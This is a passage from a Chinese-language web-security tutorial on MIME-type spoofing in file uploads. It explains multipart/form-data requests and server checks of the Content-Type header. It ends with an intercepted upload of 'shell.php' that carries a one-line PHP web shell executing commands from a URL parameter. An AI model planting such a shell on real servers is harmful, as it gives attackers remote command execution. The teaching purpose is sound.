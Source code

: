 



## 内容验证

### MIME 伪造

提交 HTML 表单时，浏览器通常以 `POST` 请求发送提供的数据，内容类型为 `application/x-www-form-url-encoded` 。

这对于发送简单的文本，如您的姓名或地址，是可行的。然而，这不适用于发送大量二进制数据，例如整个图像文件或 PDF 文档。在这种情况下，建议使用内容类型 `multipart/form-data` 。



一个包含上传图片字段、提供图片描述以及输入用户名的表单。提交此类表单可能会导致如下请求：

```
POST /images HTTP/1.1
    Host: normal-website.com
    Content-Length: 12345
    Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

    ---------------------------012345678901234567890123456
    Content-Disposition: form-data; name="image"; filename="example.jpg"
    Content-Type: image/jpeg

    [...binary content of example.jpg...]

    ---------------------------012345678901234567890123456
    Content-Disposition: form-data; name="description"

    This is an interesting description of my image.

    ---------------------------012345678901234567890123456
    Content-Disposition: form-data; name="username"

    wiener
    ---------------------------012345678901234567890123456--
```

每个部分包含一个 `Content-Disposition` 头，它提供了有关相关输入字段的一些基本信息。这些单独的部分也可能包含它们自己的 `Content-Type` 头，它告诉服务器使用此输入提交的数据的 MIME 类型。



网站可能尝试通过检查此输入特定的 `Content-Type` 头是否与预期的 MIME 类型匹配来验证文件上传。

网站验证文件上传的一种常见方法，是检查请求头中特定输入字段的Content-Type标头是否符合预期的MIME类型。例如，若服务器仅允许上传图像文件，可能只会接受 `image/jpeg` 和 `image/png` 类型。



用户在浏览器上传头像，使用 BurpSuite 工具拦截，文件字段内容如下：

```
------WebKitFormBoundaryvqUOXcGVDjOA4AqO
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: application/octet-stream

<?php system($_GET['command']); ?>
```
